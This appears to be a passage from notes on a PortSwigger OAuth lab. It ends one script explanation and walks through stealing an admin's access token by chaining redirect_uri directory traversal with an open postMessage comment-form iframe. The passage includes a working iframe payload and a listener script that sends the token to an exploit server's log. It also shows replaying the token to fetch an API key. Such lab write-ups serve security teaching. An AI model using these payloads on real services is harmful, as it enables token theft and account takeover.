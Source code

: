 If the hash is present:
- The code redirects the browser to a new URL that appends the hash fragment (excluding the `#`) as a query string parameter.
- `document.location.hash.substr(1)`:
    - `.hash.substr(1)` removes the leading `#` from the hash value.
    - For example, if the hash is `#access_token=abc123`, this will result in `access_token=abc123`.
- The resulting redirection might look like `/?access_token=abc123`.

**Script summary**
- **Without a hash**: Redirects the user to an OAuth authentication server to obtain an access token.
- **With a hash**: Appends the hash data to the new URL as a query parameter likely to process the token 


## 5. Stealing OAuth access tokens via a proxy page
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service. You can log in via your own social media account using the following credentials: `wiener:peter`.

**Analysis**:
1. Study the OAuth flow while proxying traffic through Burp and identify that the `redirect_uri` is vulnerable to directory traversal. This enables you to redirect access tokens to arbitrary pages on the blog website.
2. Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an `iframe` on each blog post. Look closer at the `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).
3. From the proxy history, right-click on the `GET /auth?client_id=[...]` request and select "Copy URL". Go to the exploit server and create an `iframe` in which the `src` attribute is the URL you just copied. Use directory traversal to change the `redirect_uri` so that it points to the comment form. The result should look something like this:
    `<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>`
4. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:
    `<script> window.addEventListener('message', function(e) { fetch("/" + encodeURIComponent(e.data.data)) }, false) </script>`
5. To check the exploit is working, store it and then click "View exploit". Make sure that the `iframe` loads then go to the exploit server's access log. There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
6. Go back to the exploit server and deliver this exploit to the victim. Copy their access token from the log. Make sure you don't accidentally include any of the surrounding URL-encoded characters.
7. Send the `GET /me` request to Burp Repeater. In Repeater, replace the token in the `Authorization: Bearer` header with the one you just copied and send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
